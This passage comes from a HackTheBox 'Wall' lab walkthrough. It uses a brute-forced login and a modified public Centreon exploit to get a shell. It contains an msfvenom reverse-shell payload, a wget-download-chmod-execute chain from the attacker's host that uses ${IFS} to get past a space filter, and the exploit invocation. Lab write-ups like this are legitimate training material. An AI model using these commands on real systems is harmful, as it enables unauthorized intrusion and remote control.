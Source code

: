Combined with GNU Parallel, you get a multi-threaded brute-forcer! Let\'s give it a shot.

<a class="image-popup">
![e777d4e3.png](/assets/images/posts/wall-htb-walkthrough/e777d4e3.png)
</a>

The credential is (`admin:password1`).

## Low-Privilege Shell

Back to EDB-ID 47069. The sample command doesn't work because there's no `ncat` in the machine :laughing:. Long story short, I managed to determine that the space character (' ') is restricted. We can always bypass this restriction with `${IFS}` where the space, tab ('\t') and the newline ('\n') characters are defined as internal field separators in the shell, most commonly Bash.

We can use `msfvenom` to generate a Linux reverse shell and then pull it into the machine with `wget`.

```
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.12.100 LPORT=1234 -f elf -o vv
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: vv
```

Host the file with Python's SimpleHTTPServer module.

```
# python -m SimpleHTTPServer 80
```

Replace the command in 47069 with the following command:

```
# echo "wget -O/tmp/vv http://10.10.12.100/vv; chmod +x /tmp/vv; /tmp/vv" | sed 's/ /\$\{IFS\}/g'
wget${IFS}-O/tmp/vv${IFS}http://10.10.12.100/vv;${IFS}chmod${IFS}+x${IFS}/tmp/vv;${IFS}/tmp/vv
```

Let\'s give it a shot!

```
# python exploit.py http://10.10.10.157/centreon admin password1 10.10.12.100 1234
```

<a class="image-popup">
![bc006b6d.png](/assets/images/posts/wall-htb-walkthrough/bc006b6d.png)
</a>


[1]: https://www.hackthebox.eu/home/machines/profile/208
[2]: https://www.hackthebox.eu/home/users/profile/17292
[3]: https://www.hackthebox.eu/